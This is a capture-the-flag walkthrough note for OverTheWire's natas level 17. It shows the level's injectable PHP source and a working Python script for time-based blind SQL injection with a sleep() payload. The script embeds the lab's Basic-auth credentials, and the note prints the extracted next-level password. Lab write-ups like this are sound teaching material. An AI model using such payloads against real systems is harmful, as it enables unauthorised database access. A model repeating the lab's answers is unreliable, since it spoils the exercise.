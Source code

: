 ```yaml
---
title: natas 17 walkthrough
description: over the wire natas 17
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-17 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 17 walkthrough
    order: 30
---
```

# Description
> Username: natas17
> 
> URL:      http://natas17.natas.labs.overthewire.org
## Source Code
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if (array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
    if (array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
            //echo "This user doesn't exist.<br>";
        }
    } else {
        //echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>
```

---
# Progress
## Observation
Seems we cannot get anything different with different inputs. Try to see if it is true. It seems like that.
However, there's a line which output the query. Therefore, use the url `http://natas17.natas.labs.overthewire.org/?debug=true&username=a`.
## Trial
From this [article](https://security.stackexchange.com/questions/109415/php-code-injection-using-get-and-echo), it seems we can only achieve [[XSS]] via the only echo line. 
We cannot get anything different by the output. Time may be a way to distinguish the difference. [[Time Delay SQL Injection]]
## Script
```python
import requests
from bs4 import BeautifulSoup
from datetime import datetime

WAITING_TIME_SECONDS = 4

def request_with_password(password : str) -> bool:
    payload = f"natas18\" and if(password like binary \"{password}%\", sleep({WAITING_TIME_SECONDS}), 'no') -- "
    return request_with_payload(f"?debug=true&username={payload}")

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNzpYa0V1Q2hFMFNibktCdkgxUlU3a3NJYjl1dUxtSTdzZA==",
    }
    url = "http://natas17.natas.labs.overthewire.org/index.php"
    url += payload
    time_before_request = datetime.now()
    response = requests.get(url, headers=header)
    time_after_request = datetime.now()
    waiting_time = (time_after_request - time_before_request).total_seconds()
    return waiting_time > WAITING_TIME_SECONDS

def main():
    success_password = "8"
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
The script is awful, since the delay may differ from time to time due to the speed of internet.
One may want to check again when get a part of the password.
Still can find the password : 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq

---
# Hint

---
# Solving
## Category
- 
## Techniques
- [[sql injection MOC]]

## Tools
- 